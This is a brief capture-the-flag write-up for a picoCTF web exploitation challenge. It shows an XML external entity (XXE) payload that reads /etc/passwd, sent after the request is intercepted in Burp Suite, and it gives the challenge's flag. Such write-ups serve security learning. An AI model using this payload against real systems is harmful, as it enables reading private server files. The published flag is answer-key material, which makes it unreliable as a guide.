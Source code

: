 # Overview 
Category: [Web Exploitation]()

AUTHOR: GEOFFREY NJOGU

# Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

# Solution
- I use Burp Suite to catch the request : 
<img src="https://i.imgur.com/8Hze7T2.png">
- XML external entity Injection (XXE):

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
```

- Can read the /etc/passwd file :
<img src="https://i.imgur.com/xbLytEC.png">

> Flag : **picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}**